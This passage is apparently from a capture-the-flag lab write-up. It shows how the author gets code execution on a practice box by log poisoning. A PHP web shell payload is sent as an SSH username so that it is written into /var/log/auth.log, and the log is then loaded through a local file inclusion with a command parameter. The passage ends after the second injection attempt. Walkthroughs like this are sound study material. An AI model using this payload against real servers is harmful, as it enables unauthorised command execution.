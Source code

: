 ```bash
/proc/version           [Status: 200, Size: 146, Words: 17, Lines: 2, Duration: 41ms]
<SNIP>
/var/log/auth.log       [Status: 200, Size: 21507, Words: 2562, Lines: 229, Duration: 39ms]
```

Although I don't seem to have access to the apache log files to call it, I find a suitable alternative: `/var/log/auth.log`. This file keeps a record of the login attempts on ssh. So, the attack becomes to use PHP code as a username when logging into ssh. I'll first try `lemmy: <?php system($_GET['c']); ?>` so that I can just search for `lemmy` and find it in the logs:

```bash
$ ssh 'lemmy: <?php system($_GET['c']); ?>'@192.168.196.80
lemmy: <?php system($_GET[c]); ?>@192.168.196.80's password:
Permission denied, please try again.
lemmy: <?php system($_GET[c]); ?>@192.168.196.80's password:
```

![1](screenshots/1.png)

I then tried to get code execution, but it didn't work. I think this is because `lemmy: <?php system($_GET['c']); ?>` was just shortened to `lemmy` in the logs. I changed it then to just use `<?php system($_GET['c']); ?>`. This does work when I fetch the page `http://192.168.196.80/console/file.php?file=/var/log/auth.log&c=id`:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/ha_natraj]
└─$ ssh '<?php system($_GET['c']); ?>'@192.168.196.80                         
<?php system($_GET[c]); ?>@192.168.196.80's password:
Permission denied, please try again.
<?php system($_GET[c]); ?>@192.168.196.80's password:
```

